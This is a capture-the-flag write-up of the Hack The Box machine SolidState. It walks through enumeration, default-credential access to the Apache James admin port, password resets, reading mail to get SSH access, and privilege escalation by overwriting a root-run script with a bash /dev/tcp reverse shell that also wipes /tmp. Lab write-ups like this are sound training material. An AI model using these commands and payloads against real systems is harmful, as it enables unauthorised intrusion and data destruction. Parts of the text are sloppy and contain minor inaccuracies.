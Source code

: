 ![logo](/logo.png)

# [SolidState- BOX]  
Hi folks, today I am going to solve an Medium rated hack the box machine which was released on 08 Sep 2017 machine on HTB,SolidState created by [ch33zplz](https://app.hackthebox.com/users/3338) .So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *Apache
  *James 
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/solidstate 10.10.10.51
```

###### Output 

![](/Linux/Linux-Medium/SolidState/Screenshots/nmap.png)

```sh
 nmap -sV -sC -oA nmap/solidstate 10.10.10.51                                                                                      ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 19:30 EAT
Nmap scan report for 10.10.10.51
Host is up (0.34s latency).
Not shown: 995 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp  open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.15 [10.10.14.15])
80/tcp  open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp open  pop3?
119/tcp open  nntp    JAMES nntpd (posting ok)
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 294.73 seconds
```

looking at the results  we find out that there are 5 ports open and its a `Ubuntu`and its running an `Apache James`. 
port[22]-ssh
port[25]-smtp
port[80]-  httpd 2.4.25
port[110]-pop3
port[119]-nntp

so when we go the browser at [http://10.10.10.51](http://10.10.10.51) solid state security website
 
![](/Linux/Linux-Medium/SolidState/Screenshots/home.png)

looking at the page i find nothing of interesting so let me start gobuster to enumerate active directories.

```sh
gobuster dir -u http://10.10.10.51 -w /usr/share/wordlists/dirb/common.txt -k --no-error
```

![](/Linux/Linux-Medium/SolidState/Screenshots/gobuster.png)

I find nothing of interesting from the gobuser but looking at the nmap i saw apache james listenning in different ports.

James Mail Server is listening on four ports with different functions. Simple Mail Transfer Protocol (SMTP) on TCP 25, Post Office Protocol (POP3) on TCP 110, and Network News Transfer Protocol (NNTP) on TCP 119 are all services that this box is offering. I could look at potentially brute forcing valid user names or sending phishing emails, but first I want to look at port 4555.

TCP port 4555 is interesting because it is the James administration port. Even without an exploit, if I can access this service, I can likely get into things that might be useful. so lets look for the exploit 

```sh
searchsploit james 2.3.2
```

![](/Linux/Linux-Medium/SolidState/Screenshots/searchsploit.png)

here is a remote code execution vulnerability, however it requires valid credentials. I can connect to 4555 with `nc`, and I’m prompted to login. The default creds of `root/root` work:

![](/Linux/Linux-Medium/SolidState/Screenshots/nc.png)

i can get a list of commands by using `help` the now from teir i can see a commdand to list user accounts.

![](/Linux/Linux-Medium/SolidState/Screenshots/telnet.png)

I can change the password for each

![](/Linux/Linux-Medium/SolidState/Screenshots/setpasswd.png)

For each account, I can now connect to TCP 110 (POP3) to check mail. `telnet` works best to connect to POP3. The first user, james, has no messages:

```sh
telnet 10.10.10.51 110
```

I find something interesting in john which leads me all way to `mindy`

![](/Linux/Linux-Medium/SolidState/Screenshots/mindy.png)

from the second message i find a password.

![](/Linux/Linux-Medium/SolidState/Screenshots/retr.png)


now lets ssh into the box with mindy as the user and the passord found earlier

```sh
ssh mindy@10.10.10.51
```

![](/Linux/Linux-Medium/SolidState/Screenshots/ssh.png)

and we can find the user text from 

![](/Linux/Linux-Medium/SolidState/Screenshots/userflag.png)

we can also use the exploit earlier we foud in the searchsploit 

![](/Linux/Linux-Medium/SolidState/Screenshots/exploit.png)


now that we have access to mindy let us install `LinEnum` to execute privsecs

```
 python 50347.py 10.10.10.51 10.10.14.5 443 
```


looking at the nc set then i find  a more interactive shell 

![](/Linux/Linux-Medium/SolidState/Screenshots/interactive.png)

so let us be able to run Linpeas to find privsec

![](/Linux/Linux-Medium/SolidState/Screenshots/Linenum.png)

from the LinEnum i find something interesting `tmp.py` being runned by root 

![](/Linux/Linux-Medium/SolidState/Screenshots/tmp.png)

let now replace a reverse shell with an exploit 

```sh
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
os.system('bash -c "bash -i >& /dev/tcp/10.10.14.5/1339 0>&1"')
```

now then we set a listner then we get root

![](/Linux/Linux-Medium/SolidState/Screenshots/root.png)

	-------------------------END successful attack @lesley----------------------
